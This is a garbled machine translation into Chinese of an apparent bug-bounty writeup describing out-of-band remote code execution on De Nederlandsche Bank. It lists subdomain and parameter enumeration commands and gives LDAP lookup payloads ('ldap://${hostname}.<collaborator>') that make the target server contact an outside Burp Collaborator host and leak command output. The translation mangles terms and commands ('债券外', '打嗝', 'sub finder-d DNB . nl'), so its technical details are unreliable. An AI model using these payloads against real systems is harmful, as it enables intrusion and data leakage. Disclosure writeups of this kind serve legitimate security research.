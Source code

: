 # 与 burp-suite 合作者在荷兰银行(RCE)进行债券外远程代码执行

> 原文：<https://infosecwriteups.com/out-of-bond-remote-code-execution-rce-on-de-nederlandsche-bank-n-v-with-burp-suite-collaborator-2ce50260e2e4?source=collection_archive---------0----------------------->

大家好

我叫 Santosh Kumar Sha，是一名来自印度(阿萨姆邦)的安全研究员/职业黑客。在本文中，我将描述我是如何在荷兰银行 N.V .上使用 burp-suite collaborator 发现非绑定远程代码执行(RCE)的

> **我现在提供一对一的会议来分享我的知识和专长:**
> 
> [T3【topmate.io/santosh_kumar_sha】T5](https://topmate.io/santosh_kumar_sha)

# 特别说明:

未经允许，不要走出测试范围。保持安全，也黑客安全。特别请求我的昆虫赏金猎人同伴，保重你的健康，永远遵守交战规则。

**用于开发的工具**

1.子查找器(https://github.com/projectdiscovery/subfinder)

2.httpx(https://github.com/projectdiscovery/httpx)

3.高(科尔本)——[https://github.com/lc/gau](https://github.com/lc/gau)

4.waybackurls(汤姆诺姆)——[https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)。

5.https://portswigger.net/burp

# bug 背后的故事:

这是我的如何在荷兰银行 N.V .上发现债券外远程代码执行(RCE)的书面报告。burp-suite collaborator 同时在不同的域上使用模糊参数。因此，在随意浏览和探索主域时，我注意到一个端点正在接受输入，因此输入一个有效载荷，但由于 waf，在服务器上执行命令并不简单。

# 这是这样的:

假设我们假设目标名称是 dnb.nl，其中所有内容都在范围内，如下所示:

**范围内:*.dnb.nl**

为了收集互联网档案中的所有子域，我使用了 subfinder、waybackurls 工具和 gau。

# 使用的命令:

**sub finder-d DNB . nl silent**

**gau -subs dnb.nl**

**waybackurls dnb.nl**

因此，错过子域的机会仍然存在，所以为了领先于游戏，我不想错过任何子域进行测试，所以我使用 subfinder 和管道 waybackurls 获得所有子域的所有域，如果存在，并将其保存到一个文件。

# 因此，最终的命令将如下所示:

gau -subs dnb.nl |展开域> > vul1.txt

waybackurls dnb.nl|展开域> > vul2.txt

sub finder-d DNB . nl-silent > > vul 3 . txt

现在收集所有的子域在一个和整理出重复的

# cat vul 1 . txt vul 2 . txt vul 3 . txt | sort-u > > unique _ sub . txt

因为，如果现在我已经收集了所有的唯一域名，并将其存储在" **unique_sub.txt** "上

# 现在创建模糊参数的客户词表:

gau-subs[DNB . nl](https://sharefile.dnb.nl)| grep " = " | sed ' s/。*.？//' | sed 's/ & /\n/' | sed 's/=。*//' > > param1.txt

wayback URLs[DNB . nl](https://sharefile.dnb.nl)| grep " = " | sed ' s/。*.？//' | sed 's/ & /\n/' | sed 's/=。*//' | sort-u>>param 2 . txt

# cat param 1 . txt param 2 . txt | sort-u > > param . txt

因为，如果现在我已经收集了所有独特的参数，并将其存储在**“param . txt”**

现在，我有了唯一的域和模糊化的客户参数。

# 现在真正的狩猎开始了，我是如何摆脱邦德·RCE 的:

因此，当在打嗝中继器的端点附近播放时，我遇到了一个接受输入的参数，但当我被注入 RCE 有效载荷时，它被 WAF 阻止，并且还对很难绕过的特殊字符进行了编码。我尝试了多种编码和解码技术来绕过它，也尝试了多种 WAF bypass 有效载荷和一些自定义有效载荷，但没有成功。很难绕过 waf 和编码来触发 RCE。

因此，在尝试了一切之后，我想为什么不尝试脱离绑定远程代码执行来提取后端上运行的命令，并将其聚集在任何其他服务器上以绕过 WAF。

所以，我不需要任何第三方域名或服务器来响应。以下是 burp collaborator 如何在测试使用时派上用场。我使用了 but payload 使用 curl，ping 和 nslookup 命令使用 burp collaborator 服务器，但没有成功。但是，突然我想起他们在使用 ldap。

所以，我最后把有效载荷试成了**“LDAP://test。<打嗝合作者 _ 服务器> "** 幸运的是我收到了 dns 的 pingback。

但是为了证明 RCE，我决定升级并从服务器获取在服务器上执行的命令的响应。现在，我尝试了最后一个有效负载来获取在服务器上执行的 rce 命令输出。

**" ldap://${hostname}。<打嗝合作者 _ 服务器>**

**钻孔过程:**

![](img/07fe888496e60629aa824517ccaf2ee3.png)![](img/a377996f893e22331c6186ff87f5364b.png)

使用这种方法，我能够使用 burp-suite 入侵者通过 burp-suite collaborator 执行多个脱离绑定的远程代码执行(RCE)。我在一份报告中报告了所有问题，因为所有问题都是因为相同的根本原因，所以只奖励一次。

![](img/233498306e93ba3804d9bce6aadf844b.png)

# 故事的寓意:

使用 burp-suite 作为自动化工具，因为它提供了无限的能力，而且你不需要编程知识，你只需要知道如何使用它。

**外卖**

我敢肯定，许多安全研究人员已经看到了这个过程，但这是我如何在荷兰银行 N.V .与 burp-suite collaborator 上发现非绑定远程代码执行(RCE)的方法。

这也是我想分享我的经历的原因之一。同时强调利用此类漏洞的其他技术。

喜欢我的作品就支持我吧！给我买杯咖啡，在 T2 的推特上关注我。
**领英简介**:[https://www.linkedin.com/in/santoshlegend12tech/](https://www.linkedin.com/in/santoshlegend12tech/)

*来自 Infosec 的报道:每天 Infosec 上都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*